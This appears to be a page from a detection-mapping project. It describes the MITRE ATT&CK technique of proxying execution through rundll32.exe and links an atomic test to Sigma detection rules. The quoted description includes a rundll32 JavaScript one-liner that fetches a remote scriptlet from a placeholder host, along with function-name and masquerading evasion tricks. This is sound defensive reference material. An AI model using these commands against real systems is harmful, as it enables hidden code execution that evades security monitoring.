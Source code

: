 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Signed Binary Proxy Execution: Rundll32 

Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: <code>rundll32.exe {DLLname, DLLfunction}</code>).

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command <code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>, rundll32.exe would first attempt to execute <code>ExampleFunctionW</code>, or failing that <code>ExampleFunctionA</code>, before loading <code>ExampleFunction</code>). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending <code>W</code> and/or <code>A</code> to harmless ones.(Citation: Attackify Rundll32.exe Obscurity)(Citation: Github NoRunDll) DLL functions can also be exported and executed by an ordinal number (ex: <code>rundll32.exe file.dll,#1</code>).

Additionally, adversaries may use [Masquerading](https://attack.mitre.org/techniques/T1036) techniques (such as changing DLL file names, file extensions, or function names) to further conceal execution of a malicious payload.(Citation: rundll32.exe defense evasion) 

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.011


# Test : Execution of non-dll using rundll32.exe
## OS
  - windows


## Description:
Rundll32.exe running non-dll 


## Executor
powershell

# Sigma Rule
 - posh_ps_susp_keywords.yml (id: 1f49f2ab-26bc-48b3-96cc-dcffbc93eadf)

 - proc_creation_win_run_executable_invalid_extension.yml (id: c3a99af4-35a9-4668-879e-c09aeb4f2bdf)



[back](../index.md)
